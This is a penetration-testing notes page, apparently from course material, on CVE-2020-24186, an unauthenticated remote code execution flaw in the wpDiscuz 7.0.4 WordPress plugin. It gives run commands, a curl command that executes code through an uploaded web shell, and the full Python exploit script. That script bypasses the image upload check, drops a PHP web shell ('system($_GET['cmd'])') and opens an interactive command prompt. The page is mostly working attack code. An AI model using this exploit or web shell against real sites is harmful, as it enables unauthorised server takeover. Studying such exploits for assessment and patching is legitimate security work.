```yaml
---
icon: wordpress
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Plugin wpDiscuz 7.0.4

## Remote Code Execution

{% hint style="info" %}
[https://www.exploit-db.com/exploits/49967](https://www.exploit-db.com/exploits/49967)
{% endhint %}

[wpDiscuz](https://wpdiscuz.com/) is a WordPress plugin for enhanced commenting on page posts. At the time of writing, the plugin had over [1.6 million downloads](https://wordpress.org/plugins/wpdiscuz/advanced/) and over 90,000 active installations, making it an extremely popular plugin that we have a very good chance of encountering during an assessment.

The crux of the vulnerability is a file upload bypass. wpDiscuz is intended only to allow image attachments. The file mime type functions could be bypassed, allowing an unauthenticated attacker to upload a malicious PHP file and gain remote code execution.

### Exploit Execution

```bash
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1
```

The exploit script takes two parameters: `-u` the URL and `-p` the path to a valid post.

The exploit as written may fail, but we can use `cURL` to execute commands using the uploaded web shell. We just need to append `?cmd=` after the `.php` extension to run commands which we can see in the exploit script.

Attacking WordPress

```bash
curl -s http://blog.acme.com/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id
```

```bash
GIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Exploit Script

{% code lineNumbers="true" %}
```py
# Exploit Title: WordPress Plugin wpDiscuz 7.0.4 - Remote Code Execution (Unauthenticated)
# Date: 2021/06/08
# Exploit Author: Fellipe Oliveira
# Vendor Homepage: https://gvectors.com/
# Software Link: https://downloads.wordpress.org/plugin/wpdiscuz.7.0.4.zip
# Version: wpDiscuz 7.0.4
# Tested on: Debian9, Windows 7, Windows 10 (Wordpress 5.7.2)
# CVE : CVE-2020-24186
# Thanks for the great contribution to the code: Z3roC00l (https://twitter.com/zeroc00I)

#!/bin/python3

import requests
import optparse
import re
import random
import time
import string
import json

parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url", help="Base target host: http://192.168.1.81/blog")
parser.add_option('-p', '--path', action="store", dest="path", help="Path to exploitation: /2021/06/blogpost")


options, args = parser.parse_args()

if not options.url or not options.path:
    print('[+] Specify an url target')
    print('[+] Example usage: exploit.py -u http://192.168.1.81/blog -p /wordpress/2021/06/blogpost')
    print('[+] Example help usage: exploit.py -h')
    exit()

session = requests.Session()

main_url = options.url
path = options.path
url_blog = main_url + path
clean_host = main_url.replace('http://', '').replace('/wordpress','')

def banner():
    print('---------------------------------------------------------------')
    print('[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution')
    print('[-] File Upload Bypass Vulnerability - PHP Webshell Upload')
    print('[-] CVE: CVE-2020-24186')
    print('[-] https://github.com/hevox')
    print('--------------------------------------------------------------- \n')

def csrfRequest():
    global wmuSec
    global wc_post_id

    try:
        get_html = session.get(url_blog)
        response_len = str(len(get_html.text))
        response_code = str(get_html.status_code)
        print('[+] Response length:['+response_len+'] | code:['+response_code+']')

        raw_wmu = get_html.text.replace(',','\n')
        wmuSec = re.findall('wmuSecurity.*$',raw_wmu,re.MULTILINE)[0].split('"')[2]
        print('[!] Got wmuSecurity value: '+ wmuSec +'')
        raw_postID = get_html.text.replace(',','\n')
        wc_post_id = re.findall('wc_post_id.*$',raw_postID,re.MULTILINE)[0].split('"')[2]
        print('[!] Got wmuSecurity value: '+ wc_post_id +' \n')

    except requests.exceptions.ConnectionError as err:
        print('\n[x] Failed to Connect in: '+url_blog+' ')
        print('[x] This host seems to be Down')
        exit()


def nameRandom():
    global shell_name 
    print('[+] Generating random name for Webshell...')
    shell_name = ''.join((random.choice(string.ascii_lowercase) for x in range(15)))
    time.sleep(1)  
    print('[!] Generated webshell name: '+shell_name+'\n')

    return shell_name


def shell_upload():
    global shell
    print('[!] Trying to Upload Webshell..')
    try:
        upload_url = main_url + "/wp-admin/admin-ajax.php"
        upload_cookies = {"wordpress_test_cookie": "WP%20Cookie%20check", "wpdiscuz_hide_bubble_hint": "1"}
        upload_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "*/*", "Accept-Language": "pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------2032192841253859011643762941", "Origin": "http://"+clean_host+"", "Connection": "close", "Referer": url_blog}
        upload_data = "-----------------------------2032192841253859011643762941\r\nContent-Disposition: form-data; name=\"action\"\r\n\r\nwmuUploadFiles\r\n-----------------------------2032192841253859011643762941\r\nContent-Disposition: form-data; name=\"wmu_nonce\"\r\n\r\n"+wmuSec+"\r\n-----------------------------2032192841253859011643762941\r\nContent-Disposition: form-data; name=\"wmuAttachmentsData\"\r\n\r\n\r\n-----------------------------2032192841253859011643762941\r\nContent-Disposition: form-data; name=\"wmu_files[0]\"; filename=\""+shell_name+".php\"\r\nContent-Type: image/png\r\n\r\nGIF689a;\r\n\r\n<?php system($_GET['cmd']); ?>\r\n\x1a\x82\r\n-----------------------------2032192841253859011643762941\r\nContent-Disposition: form-data; name=\"postId\"\r\n\r\n"+wc_post_id+"\r\n-----------------------------2032192841253859011643762941--\r\n"
        check = session.post(upload_url, headers=upload_headers, cookies=upload_cookies, data=upload_data)
        json_object = (json.loads(check.text))
        status = (json_object["success"])

        get_path = (check.text.replace(',','\n'))
        shell_pret = re.findall('url.*$',get_path,re.MULTILINE)
        find_shell = str(shell_pret)
        raw = (find_shell.replace('\\','').replace('url":"','').replace('\',','').replace('"','').replace('[\'',''))
        shell = (raw.split(" ",1)[0])

        if status == True:
            print('[+] Upload Success... Webshell path:' +shell+' \n')
        else:
            print('[x] Failed to Upload Webshell in: '+ url_blog +' ')
            exit()

    except requests.exceptions.HTTPError as conn:
        print('[x] Failed to Upload Webshell in: '+ url_blog +' ')

    return shell


def code_exec():
    try:
            while True:
                cmd = input('> ')
                codex = session.get(shell + '?cmd='+cmd+'')
                print(codex.text.replace('GIF689a;','').replace('�',''))
    except:
        print('\n[x] Failed to execute PHP code...')


banner()
csrfRequest()
nameRandom()
shell_upload()
code_exec()

```
{% endcode %}
